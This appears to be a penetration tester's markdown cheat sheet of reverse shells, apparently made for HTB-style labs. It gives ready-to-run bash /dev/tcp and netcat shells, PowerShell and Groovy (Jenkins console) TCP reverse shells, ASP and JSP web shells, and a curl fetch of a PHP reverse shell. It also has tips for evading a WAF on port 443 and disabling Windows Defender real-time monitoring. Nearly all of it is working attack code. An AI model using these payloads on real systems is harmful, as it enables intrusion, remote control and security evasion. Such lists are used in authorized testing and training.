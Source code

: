 ! Use 443 port to evade WAF.
#shell

#### Generator
https://www.revshells.com/
#### Basic bash shell
```bash
echo -ne 'bash -i >& /dev/tcp/10.10.14.25/4444 0>&1' | base64
```
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh
```
##### Upgrade shell to fully interactive:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty size;stty raw -echo;fg
#export SHELL=bash
#stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
or
```bash
script /dev/null bash
```
Good shell
```
rlwrap nc -lvnp
```
[[nc]]
#### Cheatsheet
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

#### PHP
#php
```bash
curl https://raw.githubusercontent.com/Wh1ter0sEo4/reverse_shell_php/refs/heads/main/reverse_sell.php > rsh.php
```

##### Java:
#java
https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

##### ASP:
#asp
```asp
<% eval request("cmd") %>
```

##### JSP:
[[jsp]] #java
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

##### Groovy (jenkins console /script):
[[groovy]]
```Groovy
String host="10.10.15.232";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Socat port forwarding:
[[port forwarding]]
[[socat]] #bash #shell
Download:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

from 8080 to 8888:
`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:8080

ssh port forwarding:
```shell-session
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
```

bash shells:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell (run from cmd.exe):
[[powershell]]
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Windows
Disable AV to allow running shell from admin's powershell:
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



!